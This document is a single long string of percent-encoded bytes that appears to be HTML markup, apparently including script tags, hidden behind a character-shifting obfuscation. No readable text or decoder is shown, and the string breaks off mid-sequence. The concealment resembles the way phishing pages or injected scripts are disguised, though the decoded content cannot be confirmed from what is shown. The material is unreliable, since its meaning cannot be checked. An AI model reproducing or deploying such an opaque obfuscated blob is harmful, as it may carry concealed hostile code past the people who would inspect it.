f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%58%1b%64%62%56%72%79%3e%27%69%58%72%2d%6d%62%69%61%29%1d%6e%75%64%61%3c%26%27%27%1b%67%57%7b%5c%23%77%6a%60%62%6c%65%3c%25%6e%65%6b%5c%62%25%19%67%58%74%59%2c%77%5a%78%6c%60%7a%3e%27%24%76%65%74%75%62%69%6d%78%23%16%77%60%77%6d%65%3d%27%54%66%7a%7b%64%64%60%76%25%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%3f%6f%17%62%62%5a%76%74%3c%26%62%58%74%1b%6c%56%28%69%6f%6a%76%65%2d%6d%6a%68%69%16%6d%5c%23%61%72%25%3b%3c%2b%60%39%1b%32%78%6d%57%69%19%64%6d%59%77%76%3e%25%6a%22%69%6d%2e%6b%68%6b%65%26%3b%44%63%65%64%72%6b%1b%55%63%64%6d%65%3d%28%74%66%56%6f%34%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%2a%5a%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%2a%6f%60%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%2e%7b%6f%3b%0e%0f%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%2a%67%62%7c%35%08%00%1b%19%1b%19%18%18%19%1b%3f%25%6b%64%7c%39%0c%0d%19%18%18%19%3f%28%64%56%77%34%0e%0f%1b%19%18%18%3d%74%64%78%6e%6d%7a%39%0c%0d%19%18%18%19%1b%1b%16%17%21%2e%67%6a%64%74%6d%65%6b%77%22%24%79%60%57%67%70%23%63%75%6a%66%77%62%65%65%1d%2e%22%19%7c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%24%20%27%24%69%65%7b%64%6c%62%66%5a%75%61%6b%6b%74%25%2f%25%68%65%67%58%6f%21%23%77%61%68%70%2d%2e%3a%03%0d%19%1b%19%18%18%19%1b%1b%73%2e%3a%03%0d%19%1b%19%18%3c%2a%74%64%78%6e%6d%7a%39%0c%0d%0c%0e%18%19%1b%1b%32%78%71%7f%6f%64%39%0c%0e%18%19%1b%1b%16%17%1d%16%29%73%62%65%65%6b%2c%75%66%79%67%6e%64%74%60%71%64%18%7f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%68%71%6b%79%67%62%68%72%3d%19%60%61%65%67%66%64%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%66%5a%65%67%60%6a%63%2c%65%68%7a%7b%6e%63%3d%19%36%33%2a%36%34%26%3c%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%67%6e%79%62%75%62%6a%6a%3e%19%75%66%62%56%71%6f%71%64%3c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%60%65%60%60%63%7a%31%1d%26%3c%0c%0d%19%18%18%19%1b%1b%16%17%78%03%0d%0c%0d%19%18%18%19%1b%1b%16%17%2f%7c%62%65%66%6a%2d%76%64%74%6b%65%65%72%6f%71%64%1b%60%62%76%58%6e%66%16%70%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%62%66%63%77%3f%18%28%3e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%77%65%67%3b%16%2b%3e%0e%0f%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%61%65%61%62%63%77%30%17%2c%26%2b%24%3c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%73%61%65%77%63%30%17%2c%26%2b%24%3c%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%68%6b%76%62%77%6f%64%6f%30%1b%58%65%76%6b%6c%74%77%66%31%02%0b%16%1b%19%1b%19%18%18%19%7e%0e%00%02%0b%16%1b%19%1b%19%18%18%19%29%67%7f%65%5c%63%62%66%2e%66%6b%6a%75%66%69%7a%17%7a%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%67%60%74%69%6c%59%70%3d%1b%64%64%6f%6b%3c%0c%0d%19%18%18%19%1b%1b%16%17%78%03%0d%19%1b%19%18%3c%2a%74%77%7f%63%60%34%0e%0f%1b%19%18%18%3d%74%64%78%6e%6d%7a%1b%76%75%66%3d%26%61%77%77%66%78%3b%25%28%58%6d%58%70%2a%62%68%68%6d%63%60%57%6b%60%74%2b%67%6b%6c%28%5a%60%56%75%25%6f%60%65%76%2b%6e%68%76%66%78%7e%2e%27%29%28%35%2b%34%2b%6f%6a%76%6b%79%74%24%6e%60%69%2b%6e%77%27%39%3f%25%78%62%78%62%69%77%3b%0d%0e%19%1b%1b%16%33%72%69%75%60%6b%75%18%77%77%64%3e%28%24%2e%69%68%65%66%2b%6e%69%74%66%75%7f%25%62%65%6e%2a%6d%68%75%65%77%72%2e%27%25%2c%38%29%29%29%6c%61%6a%2b%6d%74%28%35%39%25%74%66%75%60%68%74%3b%0e%0d%16%17%1d%16%3f%76%64%77%61%68%75%1b%77%7f%67%60%33%25%75%66%71%74%2b%6f%5a%71%57%78%62%78%62%69%77%27%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%28%2a%18%48%58%75%74%6b%17%71%6e%66%19%56%57%4c%18%69%5a%75%57%62%60%7a%66%77%0e%0f%18%18%19%1b%1b%16%17%1d%6c%76%6b%64%75%61%6b%6b%1b%60%6b%7b%4d%57%75%58%6e%64%74%65%77%45%72%44%56%68%6b%23%6b%5a%6c%65%2c%19%76%75%62%2e%1d%71%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%60%61%19%20%19%74%75%6f%2f%17%70%78%6f%19%3e%19%73%61%6b%67%68%7d%25%69%65%64%58%77%60%6b%6a%2b%63%75%6b%6d%3a%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%69%58%6e%64%18%3d%19%69%5a%63%6a%2f%78%66%69%6f%58%67%65%21%28%5c%52%50%59%53%5e%2a%60%2d%18%26%5d%5f%27%2c%29%24%31%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%73%5a%77%18%76%64%60%66%7e%17%38%16%69%64%70%19%56%65%62%46%73%66%2f%23%51%38%23%5e%27%18%2f%19%69%5a%63%6a%1d%21%1b%27%23%3c%20%5f%5b%21%24%53%21%24%72%21%7d%24%7d%24%21%27%22%2f%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%77%66%76%75%6c%75%74%1b%33%17%73%6b%60%64%73%2b%65%70%64%64%23%7b%79%69%2f%3c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%62%63%18%20%18%75%66%79%7a%69%7a%74%20%1b%77%65%74%74%75%69%16%65%70%62%6f%3e%0e%0f%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%60%62%18%21%1a%75%6b%78%70%62%77%76%5c%37%5d%21%19%75%66%7a%7a%73%64%1b%22%20%3e%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%76%64%77%76%78%65%1d%6a%66%66%68%65%65%55%57%42%44%65%62%6d%65%69%64%69%75%20%76%64%74%76%62%7b%72%51%35%5c%29%77%65%68%6d%5a%64%6b%2f%2e%52%2c%2a%60%2d%18%26%19%25%22%2f%30%08%00%1b%19%1b%19%18%18%19%1b%7e%03%01%1d%16%1b%19%1b%19%18%18%2a%28%1b%4d%6e%77%6b%1b%75%63%64%18%68%58%75%5a%63%6a%71%6b%75%19%5a%19%72%59%77%62%5a%68%63%60%16%69%58%6e%64%0d%0e%19%1b%1b%16%17%1d%16%1b%73%5a%77%18%64%70%69%5a%63%6e%62%49%68%6b%77%64%6a%74%19%3e%1b%6d%6a%71%46%5a%77%5a%6c%65%74%64%75%45%7f%45%5c%63%66%21%20%60%64%23%20%3c%0e%00%02%0b%16%1b%19%1b%19%18%18%19%27%23%6a%64%62%7b%6e%64%69%75%21%2a%77%66%5a%6a%7e%25%6c%76%6b%64%75%61%6b%6b%1b%23%2f%17%7a%03%0d%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%28%2a%18%47%61%66%64%61%17%64%6c%1b%75%63%64%18%55%57%4f%1b%66%56%73%63%66%75%66%77%18%61%76%1b%66%63%67%71%7f%1b%6a%75%19%6a%6b%75%1b%67%6b%6d%64%64%66%65%2f%19%64%61%76%6b%6f%57%7e%1d%6a%66%63%5a%74%6c%74%19%64%68%64%7b%60%64%77%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%62%63%18%20%65%72%69%57%62%64%69%44%6a%69%75%65%6a%75%1b%3e%33%17%70%64%67%64%61%60%6a%65%65%1b%7f%72%17%61%7f%69%58%6e%60%67%47%6a%69%77%6b%65%71%16%3e%3c%1b%22%23%21%19%7c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%27%21%20%26%6a%6b%2c%61%62%62%6a%26%2f%29%76%63%6a%73%20%20%3c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%73%02%0b%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%28%2a%1b%46%60%65%66%6c%1b%6f%6d%1d%7a%63%64%1b%54%56%4c%19%6b%5a%78%56%68%6b%77%64%75%19%61%77%19%5a%71%57%6e%69%57%65%6d%66%19%6b%76%19%69%68%7a%25%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%6b%6f%76%66%19%7f%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%2b%25%2d%24%69%6f%58%71%2d%65%68%70%64%63%6e%57%67%22%22%2b%77%60%6a%70%23%2f%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%73%0e%0f%1b%19%18%18%19%1b%1b%16%72%24%31%0e%0f%1b%19%18%18%3d%28%74%69%79%64%66%77%3b%0e%0f%0d%0e%19%1b%1b%16%33%61%6f%71%19%64%6d%59%77%76%3e%25%69%64%6f%7a%5a%60%69%64%76%26%3b%0e%0d%03%01%08%00%1b%19%1b%19%18%18%19%1b%3f%79%68%73%6f%6b%75%1b%6d%59%6a%62%76%5a%6d%6a%38%60%5a%73%5a%76%67%76%60%6b%77%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%77%57%75%19%77%61%65%57%64%6f%66%69%7b%29%16%77%61%66%40%62%76%58%6e%66%31%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%77%57%75%19%77%6a%64%59%70%1b%3e%16%65%60%7d%1b%45%5a%75%65%20%20%2f%0e%00%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%69%74%6d%66%64%75%58%65%6d%5e%6a%5a%70%1b%3c%18%74%6a%67%5a%7f%25%66%6b%77%45%5a%70%20%21%3e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%27%2e%6b%6e%69%76%6c%66%6b%74%21%2b%75%66%57%6b%74%2e%61%74%69%66%74%61%6a%69%1b%2e%2e%1d%71%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%2b%2a%71%5a%78%17%71%65%67%58%72%19%3d%18%6b%66%70%16%4b%5c%7a%66%21%22%3e%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%25%24%77%57%75%19%69%19%3d%18%75%68%67%57%7e%2f%6d%66%75%47%58%71%20%20%3c%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%77%61%66%56%65%6c%64%64%77%16%32%1d%6a%68%66%76%6c%65%6a%75%29%60%6b%7b%40%62%66%6c%66%6b%74%46%70%42%67%2e%2c%69%65%64%58%77%60%6b%6a%22%22%3c%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%75%63%64%41%62%77%5a%6e%6b%17%38%16%67%6a%64%74%6d%65%6b%77%29%6d%6a%71%4b%6f%64%6e%64%6a%74%47%72%42%6a%2f%26%63%72%40%61%77%59%6d%64%20%22%31%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%77%61%65%55%77%6f%1b%33%17%71%6e%66%56%66%6d%65%67%75%29%68%66%7b%64%65%69%76%5c%6b%75%6d%67%66%75%55%64%67%55%67%58%72%5c%2a%72%58%6f%76%6b%30%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%75%60%65%40%61%75%57%62%60%24%74%77%64%19%3d%18%75%63%66%5b%79%69%31%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%7c%22%3e%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%62%74%69%64%7a%6e%6e%64%1b%76%66%75%41%62%77%5a%6e%6b%58%6e%7b%75%66%66%21%21%18%7e%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%7c%5a%77%1b%75%60%65%54%75%6f%31%02%0b%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%61%62%19%23%77%6e%6a%52%6b%6f%64%64%75%2a%77%64%6f%66%69%7b%60%6a%42%6b%67%64%70%18%3b%1b%2b%2f%17%7a%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%77%6e%6a%50%78%6f%19%3e%19%74%60%64%54%66%62%6a%62%7a%29%6a%6b%75%61%6b%6b%74%5c%7a%6f%60%59%66%6d%66%66%74%2a%76%66%6f%6b%68%71%6b%67%40%69%65%65%70%5c%29%71%57%63%70%6b%3c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%7c%1b%66%62%78%60%16%7c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%7b%65%6b%56%77%6f%19%3d%18%75%63%66%59%6a%69%6b%64%75%29%6a%68%74%60%68%69%79%50%6f%7b%6e%67%66%77%5b%6b%63%58%67%57%7e%58%24%71%58%6f%74%65%3f%0c%0d%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%78%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%74%60%64%42%61%78%56%68%6b%29%76%75%66%18%3d%19%77%63%6b%5a%73%62%3c%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%7e%0c%0e%18%19%1b%1b%16%17%1d%16%3f%2a%74%66%76%61%69%77%39%03%01%08%00%1b%19%1b%19%18%18%19%1b%3f%17%22%28%16%47%64%61%58%75%6c%75%1b%47%7f%65%5c%63%62%66%1b%56%65%67%75%62%68%64%17%28%23%39%0c%0d%19%18%18%19%1b%1b%16%17%39%6a%62%73%1b%60%64%3d%27%6b%6f%57%7e%28%6a%68%72%69%6d%6b%59%65%25%1b%69%63%5c%79%74%3c%25%65%71%6a%58%6e%62%69%22%62%65%69%75%66%6b%74%26%3b%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%3f%59%4a%49%4b%44%55%1b%66%6c%59%76%74%3e%28%68%70%79%77%6a%6e%2c%77%65%6d%66%64%7a%29%1d%44%3a%4c%46%3c%26%6b%69%77%62%65%65%72%28%1b%4a%49%46%40%39%4b%40%46%33%29%61%65%64%74%6e%64%6a%74%2b%60%66%7a%4a%69%6b%6e%64%69%75%46%71%40%67%23%2d%7e%6e%7b%75%60%61%77%59%6d%64%20%22%24%78%73%69%1b%3c%1b%75%60%61%76%29%68%66%7b%64%65%69%76%5c%75%60%61%76%29%74%6b%63%60%69%77%64%67%40%6a%64%64%73%5e%24%7d%5c%62%76%64%25%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%76%64%75%6f%67%71%16%77%70%6b%64%3d%26%75%66%73%7a%24%6b%57%71%58%74%66%76%61%69%77%25%34%02%0b%6a%29%72%75%60%74%65%21%20%3f%65%67%71%6f%68%6b%39%46%60%6b%6a%74%66%16%47%69%57%72%64%75%3d%2b%6b%69%77%62%65%65%3f%32%68%69%77%60%6b%6a%19%71%5a%62%7a%60%33%25%61%77%75%68%77%3f%28%28%6a%79%64%7c%66%2b%60%6a%6b%63%6d%66%29%69%64%68%25%61%60%6f%64%2b%64%2a%20%2c%6f%6d%73%57%6e%64%2c%22%2b%68%77%66%71%6f%6a%76%28%39%4c%76%6d%74%61%48%76%5a%62%6e%71%7f%3f%2a%68%69%74%61%6a%69%39%32%64%6d%7a%62%6a%69%19%72%59%6d%76%66%33%29%65%7a%77%69%74%3f%2b%2b%75%68%68%64%78%71%78%66%58%6e%2b%60%65%77%68%6c%7b%56%6d%66%29%66%68%6c%2b%43%45%4b%28%35%3f%68%43%36%50%76%72%47%71%62%42%37%65%49%42%3f%77%46%64%41%3d%23%2e%62%61%78%56%68%6b%2c%22%25%3b%4e%53%19%4b%6f%57%7e%60%78%3f%2a%68%69%74%61%6a%69%39%32%24%52%4b%4f%44%44%55%3a%3c%67%75%28%34%33%63%78%28%3b%3f%65%61%72%19%64%6f%57%78%72%33%25%77%66%76%68%2d%66%68%69%7a%56%64%64%66%77%25%3b%18%3c%60%61%75%57%62%60%16%64%6d%5a%76%77%3d%27%75%66%79%67%28%6f%61%77%5a%6c%65%26%19%62%67%33%29%74%65%76%77%62%63%76%59%6c%66%25%16%78%73%69%3e%27%63%75%74%68%76%3d%28%25%6b%73%6f%71%64%29%62%6b%6b%62%6f%66%24%68%6e%63%28%63%62%6d%65%2b%65%28%20%21%6e%67%78%5a%6c%66%2e%23%2b%69%75%66%7c%6e%60%7d%25%19%60%64%77%74%74%75%66%33%29%68%6b%67%60%5a%27%18%59%6d%6f%68%7d%32%23%6b%69%66%75%70%68%74%64%67%2e%63%6a%61%6f%5a%27%1b%58%6c%6c%6a%70%61%7b%63%69%79%64%77%66%64%6a%3d%27%25%1b%63%64%7b%57%6f%6d%68%72%62%75%6d%6f%74%69%79%60%6b%69%3c%25%75%76%75%64%25%1b%7d%6a%63%61%62%75%5a%6d%6c%6b%72%61%76%62%63%72%69%75%64%66%6b%3d%26%75%75%76%6b%29%1d%79%5a%6b%67%67%6b%70%76%64%75%65%63%69%6f%69%62%3e%27%6a%6b%27%1b%74%57%65%61%68%68%71%3e%27%59%6c%6d%68%70%23%78%62%78%62%69%77%76%18%59%6d%6f%68%7d%22%72%57%6e%64%2e%6a%76%61%62%62%69%28%35%39%25%62%63%75%58%6d%65%3b%3f%28%6a%6e%77%34%3f%61%75%2a%3a%3c%66%66%69%7a%6a%73%34%3f%58%1b%61%76%65%63%3e%25%6e%7b%71%66%74%3f%28%2a%74%6b%6a%69%74%7a%79%60%57%6e%2b%63%64%76%6b%6e%76%5a%66%67%2f%69%68%6c%28%42%44%76%60%71%66%25%6c%61%6f%75%64%64%75%36%2a%69%63%6b%35%6e%61%33%20%2e%62%63%76%59%6c%66%2c%2d%29%1d%78%66%6d%3e%27%6a%6b%6a%6b%66%64%6a%73%16%69%6a%75%64%62%65%77%75%66%78%29%3f%32%65%74%77%75%6b%6a%19%64%6f%57%78%72%33%25%67%77%6b%2d%60%6a%71%66%78%17%62%65%6f%6a%75%2c%29%29%27%39%3f%6f%17%62%62%5a%76%74%3c%26%62%58%1b%61%57%22%61%65%70%6b%6f%6a%59%64%27%39%3f%25%6e%3f%16%47%6a%70%6b%6c%6b%58%67%1b%4c%6e%69%6b%3f%2a%65%74%74%74%6a%69%39%32%24%5c%34%3f%58%1b%61%76%65%63%3e%25%6e%7b%71%66%74%3f%28%2a%73%73%72%29%77%65%64%6f%79%63%74%65%2b%6d%6c%2a%25%1b%78%6a%69%33%25%6b%68%6a%68%65%6b%66%75%16%65%6e%78%66%63%66%77%76%65%77%25%1b%7a%56%73%6d%66%75%3e%27%5b%66%6d%5a%69%61%29%3f%32%65%74%77%75%6b%6a%19%64%6f%57%78%72%33%25%67%77%6b%2d%60%6a%71%66%78%17%62%65%6f%6a%75%2c%29%26%3b%3f%62%16%68%69%57%74%76%3e%27%62%59%19%61%5a%23%65%60%7d%74%69%5a%69%65%76%27%39%3f%25%6e%3f%16%21%6b%65%76%68%3f%53%62%74%6f%7b%1d%5a%68%6a%69%76%40%75%67%3f%28%68%7a%71%7a%68%6b%39%3d%2b%59%3b%3f%28%69%6a%6f%7a%66%77%39%3d%66%76%2a%39%20%2f%02%0b%32%28%76%64%77%61%68%75%39%0e%00%17%1d%16%1b%19%1b%19%18%3c%2a%67%62%7c%35%08%00%1b%19%1b%19%18%18%19%1b%3f%17%22%28%16%47%70%69%58%6d%61%66%1b%54%6b%68%71%6f%68%6b%1b%56%74%59%77%77%74%16%22%28%34%0e%0f%1b%19%18%18%19%1b%1b%16%33%61%6f%71%19%62%65%3d%26%6b%68%2e%6c%6e%69%6b%25%19%64%6d%59%77%76%3e%25%6a%7e%6f%57%6e%60%64%2c%67%6b%6b%77%66%64%7b%23%34%0e%0f%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%3d%64%64%6a%74%64%75%39%32%56%1d%6e%75%64%61%3c%26%2b%27%1b%64%62%56%72%79%3e%27%65%75%6a%18%67%77%69%23%67%73%6f%6e%58%75%70%18%6d%75%2e%2a%16%62%73%23%35%19%70%58%72%65%76%2e%66%6c%6d%60%69%77%19%70%58%72%65%76%2e%6f%6f%6c%65%7a%25%19%77%58%76%63%64%77%3e%28%54%63%62%5a%6b%6c%27%3a%52%60%74%62%7a%17%1d%5a%68%6a%69%76%40%75%67%3f%28%57%35%39%25%64%64%69%75%65%76%3b%0e%0d%16%17%1d%16%1b%19%1b%19%3c%2b%65%62%71%34%02%0b%03%0d%19%1b%19%18%18%19%1b%1b%32%16%28%23%1b%45%72%6b%59%6d%60%64%1b%59%6a%62%7a%62%6a%69%19%45%6a%65%74%1b%16%17%28%23%39%0c%0d%19%18%18%19%1b%1b%16%17%08%00%1b%19%1b%19%18%18%19%1b%0e%00%17%1d%16%1b%3d%28%65%61%72%3b%0e%0d%16%17%1d%16%3f%2a%6e%58%61%6a%3b%0e%0d%16%17%1d%16%3f%65%62%73%18%67%6d%5a%74%79%32%23%63%68%65%5a%6d%18%62%58%67%66%28%17%64%6a%3e%27%74%64%74%74%60%69%60%79%29%1d%7a%5a%67%62%6b%64%65%71%3e%25%23%26%23%16%75%6a%6f%64%3d%26%65%62%5a%62%64%66%28%1b%58%75%60%59%2d%6d%5a%65%6b%63%69%6b%67%67%72%3c%26%77%64%77%77%6f%65%66%79%4f%58%65%64%6c%26%0c%0d%1b%16%17%1d%16%1b%19%1b%58%76%61%58%2e%63%6f%6b%61%6b%69%3c%25%75%76%75%64%25%39%03%01%1d%16%1b%19%1b%19%18%18%3d%67%62%7c%17%62%62%5a%76%74%3c%26%6d%6a%67%5a%62%22%61%6f%5a%6d%68%62%26%18%77%68%6f%6b%32%23%6a%68%66%76%6c%65%6a%75%25%39%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%33%61%6f%71%19%64%6d%59%77%76%3e%25%63%64%61%57%6f%2c%64%6a%6a%74%64%69%77%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%3d%64%61%73%1b%64%62%56%72%79%3e%27%6e%6a%64%59%6d%2e%63%6b%56%61%6b%75%27%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%63%33%1b%66%6c%59%76%74%3e%28%62%6e%6a%5a%6d%2e%75%61%74%6d%66%25%34%58%60%7a%77%60%69%62%77%3c%2a%63%31%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%3f%2a%64%61%73%39%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%65%62%73%18%67%6d%5a%74%79%32%23%63%68%65%5a%6d%2d%66%6a%67%72%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%3f%67%6f%7d%1d%69%6f%58%74%76%3d%26%65%2e%61%62%6a%75%16%5a%6d%62%62%6a%2d%60%77%66%63%78%28%69%66%6b%77%64%76%18%6f%76%74%7a%6e%67%7f%2e%66%68%6b%74%65%6b%77%2e%68%6a%71%7d%66%64%69%27%3a%0d%0f%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%3c%65%62%71%16%68%69%57%74%76%3e%27%59%6c%60%60%69%23%78%60%62%61%2c%64%64%6a%74%64%75%1b%6c%64%6f%7a%2e%72%66%60%63%60%75%2e%65%65%63%61%28%39%45%5a%77%6f%18%55%63%66%63%6a%39%25%67%60%71%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%64%60%71%1b%69%63%5c%79%74%3c%25%58%6c%61%62%69%2e%79%6a%69%6c%2e%66%66%6b%74%65%77%25%39%03%01%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%65%62%73%18%67%6d%5a%74%79%32%23%69%76%76%77%6a%6d%2d%66%68%69%7a%79%6e%62%1b%66%76%76%74%6b%6c%2e%74%7d%6e%71%69%63%27%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%6f%69%69%76%75%18%74%70%6b%66%33%29%62%6e%66%66%6c%67%6b%70%27%1b%64%62%56%72%79%3e%27%64%74%77%74%6a%6e%2e%69%64%6f%7a%75%6a%6f%2c%61%6a%69%76%77%28%17%64%6a%3e%27%67%58%76%6f%56%70%62%7a%68%65%28%1b%2a%39%0c%0e%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%62%5a%67%66%6d%18%67%6d%5a%74%79%32%23%69%76%76%77%6a%6d%2d%66%68%69%7a%79%6e%62%2e%6d%5a%67%65%6c%27%1b%61%65%79%38%28%67%58%75%6e%57%73%60%77%64%6e%29%1d%6f%67%3c%25%65%59%76%6e%54%70%6f%7b%62%6e%57%64%73%75%26%3a%6a%69%28%65%6d%67%32%28%6d%5a%67%65%6c%3b%0e%0d%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%39%25%67%60%71%3b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%3c%2b%65%62%71%34%02%0b%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%3d%28%67%6f%7d%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%3f%79%62%5c%62%6f%3b%47%58%76%6f%19%77%63%6b%62%60%16%77%74%75%6b%77%18%75%63%66%16%63%64%6d%63%75%1b%76%75%76%63%5a%64%6b%78%1d%65%61%19%77%61%65%18%69%5a%60%6b%17%61%57%75%6e%2f%19%67%76%64%5a%77%6f%65%66%16%5a%6b%1b%64%70%68%64%75%62%6b%65%62%6b%1b%60%67%64%59%6c%19%61%68%78%17%6f%6f%60%61%77%2b%0d%0e%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%54%76%70%1b%62%7a%17%6e%7b%77%18%0e%0f%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%1b%19%52%6a%75%76%19%47%5a%78%60%1d%7a%63%64%6e%64%18%77%64%77%77%6f%65%66%16%70%60%6f%6d%18%59%69%6b%6f%7f%17%71%65%1b%75%63%60%77%18%67%75%68%7d%78%60%78%1b%6a%69%6d%71%2a%3d%28%74%63%56%69%62%39%0c%0d%19%18%18%19%1b%1b%16%17%1d%16%1b%19%1b%19%18%18%3d%28%67%6f%7d%3f%03%0d%19%1b%19%18%18%19%1b%1b%16%17%1d%16%3f%2a%67%60%72%3a%0c%0d%1b%16%17%1d%16%1b%19%1b%3d%2b%64%60%71%39%03%01%1d%16%1b%19%3f%2a%64%61%73%39%0e%00%02%0b%03%0d%19%1b%19%18%3c%63%68%68%7a%6a%73%16%64%6d%5a%76%77%3d%27%6e%77%23%56%70%7a%68%19%65%62%2d%6c%60%60%63%7a%29%3f%03%0d%19%1b%19%18%18%19%1b%1b%32%6b%64%7c%1b%66%6f%58%77%77%3c%25%64%65%65%71%57%62%6b%66%77%18%68%70%2e%34%28%35%08%00%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%32%6b%19%64%6d%59%77%76%3e%25%7a%6a%75%7a%2e%66%66%6b%74%65%77%1b%77%6b%7f%71%23%6e%74%77%64%64%26%3b%57%68%65%65%52%6b%75%73%66%77%18%61%76%1b%5a%6c%6d%64%62%62%58%77%64%64%18%75%68%1b%32%56%1d%6e%75%64%61%3c%26%2b%27%39%57%65%64%6f%79%43%74%65%3d%2b%59%3b%29%1b%37%65%61%16%67%6a%66%76%18%6a%6a%77%1b%6e%64%72%7a%1b%58%69%70%18%62%60%6f%66%79%17%6e%64%1b%60%77%e7%78%91%76%1b%74%6b%79%77%6b%75%76%29%19%39%6c%6d%1b%61%6f%63%60%79%1b%6a%75%19%67%6b%6b%77%66%64%7b%72%16%63%6a%74%75%65%64%19%68%69%16%7b%65%6f%75%65%1b%69%59%76%75%72%0e%00%17%1d%16%1b%19%1b%19%18%18%19%1b%1b%16%17%1d%16%70%64%65%76%61%74%64%74%29%16%33%5c%16%63%77%